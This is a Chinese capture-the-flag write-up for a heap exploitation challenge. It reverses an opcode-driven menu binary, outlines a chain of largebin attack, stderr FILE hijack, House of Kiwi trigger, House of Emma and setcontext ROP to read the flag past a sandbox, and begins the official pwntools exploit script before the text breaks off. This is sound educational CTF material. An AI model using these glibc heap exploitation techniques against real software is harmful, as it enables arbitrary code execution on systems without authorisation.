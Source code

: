 
类似switch的结构中出现的表。

假设选择的是我们计算一下 rdx+该偏移表的地址，发现刚好落在后面的一些段内，于是可以分析

```c
opcode取值
- 0 违法
- 1 add
- 2 del
- 3 show
- 4 edit
- 5 结束
- 6 似乎是实现一个循环解析指令的效果
还有一些杂的就不逐一分析了
```

所以说一次以4字节为一个指令，可以连续执行。

每次5退出之后，重新malloc一个chunk再次输入指令。

关于修复JUMPOUT [分享一个对抗JUMPOUT的小技巧\_游戏逆向](http://www.yxfzedu.com/rs_show/150)

关于修复jmp rax 看上面。。。

解题思路
----

泄露lilbc还是很简单的，直接ub一把梭。

然后就有点蒙了，largebin下的攻击getshell的还真不多，能想起来的也只有任意地址写堆地址，利用FSOP打伪造IO来实现getshell。

但是这题开了沙箱保护，属实又把难度提高了很多。

下面主要分析一下该题解的exp

- - - - - -

思路

1. 使用 LargeBin Attack劫持stderr实现IO\_FILE\_plus的劫持
2. 使用 LargeBin Attack 在\_\_pointer\_chk\_guard 处写一个已知地址
3. 往相应的堆中写入伪造的扩展之后的结构体
4. 利用 Unsorted Bin 会与 Top Chunk 合并的机制来修改 Top Chunk 的 Size，从而触发[House OF Kiwi](https://www.anquanke.com/post/id/235598) 中的 IO 调用。
5. 进入 House OF Emma 的调用链，同时寻找一个能够转移 rdi 到 rdx 的 gadget，利用这个 gadget 来为 Setcontext 提供内容。
6. 利用 Setcontext 来执行 ROP 来 ORW

（Wjh师傅）官方exp

```python
from pwn import *

    context.log_level = "debug"
    context.arch = "amd64"
    # sh = process('./pwn')
    sh = remote('127.0.0.1', 9999)
    libc = ELF('./lib/libc.so.6')
    all_payload = ""

    def ROL(content, key):
        tmp = bin(content)[2:].rjust(64, '0')
        return int(tmp[key:] + tmp[:key], 2)

    def add(idx, size):
        global all_payload
        payload = p8(0x1)
        payload += p8(idx)
        payload += p16(size)
        all_payload += payload

    def show(idx):
```